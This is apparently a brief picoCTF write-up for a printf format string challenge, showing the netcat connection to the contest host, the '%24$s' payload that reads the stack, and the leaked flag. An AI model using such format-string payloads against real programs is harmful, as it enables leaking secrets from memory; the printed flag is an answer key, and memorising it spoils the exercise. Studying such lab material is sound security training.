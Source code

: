 # Exp

# Flag: picoCTF{L34k1ng_Fl4g_0ff_St4ck_6aea3c7c}

Story telling class 1/2 I'm just copying and pasting with this program. What can go wrong? You can view source here. And connect with it using: nc saturn.picoctf.net 50842

Printf format string exploitation

```
nc saturn.picoctf.net 50842
Tell me a story and then I'll tell you one >> %24$s
Here's a story - 
CTF{L34k1ng_Fl4g_0ff_St4ck_6aea3c7c}
```